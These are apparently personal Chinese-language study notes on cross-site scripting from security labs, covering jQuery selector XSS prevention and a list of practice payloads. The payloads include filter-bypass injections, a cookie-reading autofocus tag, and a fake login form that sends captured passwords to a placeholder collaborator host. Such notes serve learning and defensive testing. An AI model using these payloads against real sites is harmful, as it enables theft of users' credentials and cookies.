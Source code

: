 ## 如何防止 jQuery 中的 XSS
jQuery 最常見的 XSS 是當你傳使用者 input 到 jQuery 的 selector
- developer 經常使用 `location.hash` 並將其傳給 selector 導致 XSS
  - 因為 jQuery 將呈現 HTML
- jQuery 認識到這個問題並修補 selector，檢查 input 是否以 hash 值開始
- 現在 jQuery 只會在第一個字是 `<` 的情況下呈現 HTML
- 如果你把不可靠的資料傳遞給 jQuery selector，請確保你使用上面的 `jsEscape` function 正確地轉義該值


----------------

## 其他練習 lab 時用到的 payload
留下這些筆記，主要是給自己一些提醒跟參考  

最基本的測試
```html
<script>alert(1)</script>
<script>print()</script>
```


該網站用 replace function 做了某些過濾，這樣能跳脫
```html
<><img src=1 onerror=alert(1)>
```

```js
function escapeHTML(html) {
  return html.replace('<', '&lt;').replace('>', '&gt;');
}
```

XSS 偷 password 密碼:  
利用 password manager 的自動輸入來騙密碼  
```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">

```

custom tag 然後自動觸發 alert
- 我自己還不懂，為什麼多一個 `tabindex=1` 才有用，這可能涉及 custom tag + focus 的 spec
```html
<a2  autofocus onfocus=alert(document.cookie) tabindex=1 >
```

encode 單引號 (`'`)  
```
https://www.aaaaaaaaa.com&#39;);alert(1);(&#39;
https://www.aaaaaaaaa.com&#39;);alert(1);return false;(&#39;
```

